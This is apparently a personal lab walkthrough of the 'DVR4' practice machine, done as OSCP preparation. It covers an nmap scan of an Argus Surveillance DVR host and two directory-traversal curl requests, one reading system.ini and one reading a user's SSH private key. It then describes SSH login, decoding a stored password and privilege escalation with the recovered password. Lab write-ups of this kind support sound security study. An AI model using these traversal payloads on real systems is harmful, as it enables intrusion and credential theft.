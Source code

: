 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: DVR4
tags: ["priv-esc", "gobuster", "ssh", "persistence", "burpsuite", "directory-traversal"]
---
```


**Start 18:30 24-02-2025**

---
```
Scope:
192.168.219.179
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -vvvv -p- dvr4 -sT -T5 --min-rate=5000

PORT      STATE SERVICE       REASON  VERSION
22/tcp    open  ssh           syn-ack Bitvise WinSSHD 8.48 (FlowSsh 8.48; protocol 2.0; non-commercial use)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
5040/tcp  open  unknown       syn-ack
7680/tcp  open  pando-pub?    syn-ack
8080/tcp  open  http-proxy    syn-ack
|_http-title: Argus Surveillance DVR
|_http-generator: Actual Drawing 6.0 (http://www.pysoft.com) [PYSOFTWARE]
|_http-favicon: Unknown favicon MD5: 283B772C1C2427B56FC3296B0AF42F7C
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Connection: Keep-Alive
|     Keep-Alive: timeout=15, max=4
|     Content-Type: text/html
|     Content-Length: 985
|     <HTML>
|     <HEAD>
|     <TITLE>
|     Argus Surveillance DVR
|     </TITLE>
|     <meta http-equiv="Content-Type" content="text/html; charset=ISO-8859-1">
|     <meta name="GENERATOR" content="Actual Drawing 6.0 (http://www.pysoft.com) [PYSOFTWARE]">
|     <frameset frameborder="no" border="0" rows="75,*,88">
|     <frame name="Top" frameborder="0" scrolling="auto" noresize src="CamerasTopFrame.html" marginwidth="0" marginheight="0"> 
|     <frame name="ActiveXFrame" frameborder="0" scrolling="auto" noresize src="ActiveXIFrame.html" marginwidth="0" marginheight="0">
|     <frame name="CamerasTable" frameborder="0" scrolling="auto" noresize src="CamerasBottomFrame.html" marginwidth="0" marginheight="0"> 
|     <noframes>
|     <p>This page uses frames, but your browser doesn't support them.</p>
|_    </noframes>
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC

```


## 445/TCP - SMB

![](../../../assets/c93c2cf820f120468c4da2dc0b6183a5.png)

## 8080/TCP - HTTP

![](../../../assets/d9fcc30e4e41e9fe543ad8893d383ee3.png)

I look up exploits matching the service:

![](../../../assets/f4977a08cd478ad5974fe27104e9be01.png)

I actually get quite a lot of them, let's try out the **Directory Traversal** one.

![](../../../assets/1727fbb57802786741496cb71589c895.png)

```bash
# PoC

curl "http://dvr4:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
```

![](../../../assets/add47350bbb38a0c75f48a7a7b36e49e.png)

We indeed get the intended result.

Back on the website we find the user we're looking for:

![](../../../assets/a47da0ec30e1d9d5bfc5df773e091bea.png)

We want to get the ssh key of *viewer* so we can then log in.

```bash
curl "http://dvr4:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FViewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
```

![](../../../assets/07ff7964bb71e7dae28ae4a0937a69f3.png)

Now that we have the `id_rsa` key, we can use it to log into SSH.


# Foothold

![](../../../assets/260c380d461f5331759eddb56069c6cb.png)

![](../../../assets/54fb5758053c60043d9710c39855b65a.png)

EZ PZ

Let's check out the home directory:

![](../../../assets/3dcb924454908b274b4b535ab447de6c.png)

We notice the user already has `nc.exe` as well as `psexec.exe` in here... Might be a clue.

Let's snatch the `local.txt` first.

## local.txt

![](../../../assets/6277cbf397715f715404e448d5ba3346.png)


# Privilege Escalation

## PoC

We also find another PoC:

![](../../../assets/828741fd3638361b9d246b6b45b419da.png)

In here we see a mention of the `.ini` file, let's check it out.

![](../../../assets/aa4a657fa19b9ddabb7debb08c469701.png)

![](../../../assets/a4217bd840d88203bb038f972064bb31.png)

![](../../../assets/a8cb2fa6b292acb717fde887a3711fac.png)

```
ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8
5E534D7B6069F641E03BD9BD956BC875EB603CD9D8E1BD8FAAFE
```

![](../../../assets/f214445aca1c813aa3440ffa717aef2e.png)

![](../../../assets/1db6b13f4670fc5b91f4b28488d2757e.png)

Notice the **Unknown** character here.

>[!note]
>It is possible that we might have to brute force the last character if this is the correct password.

```
14WatchD0g
```

![](../../../assets/f110cb4642c152f5b18753f61d4b30aa.png)

```
ImWatchingYou
```

![](../../../assets/9e6317a4fff03729857504febc91a553.png)

>[!fail]
>Neither worked.

Let's try the `nc.exe` binary then, with the help of `runas`.

![](../../../assets/dd5fa1da2e8b797a990906ba2bc1b980.png)

>[!fail]
>Again no success, let's try to brute force the last **Unknown** character that we found previously.

After some tries it worked:

![](../../../assets/f0660895d041206fe4a91b34cf8ca26c.png)

![](../../../assets/eb5b6f3815d52f706399be54639278ab.png)

>[!success]
>The correct password was `14WatchD0g$`


## proof.txt

![](../../../assets/115e7c1404fae67346215f7b06f3d3f2.png)

---

**Finished 19:27 24-02-2025**

[^Links]: [[OSCP Prep]]

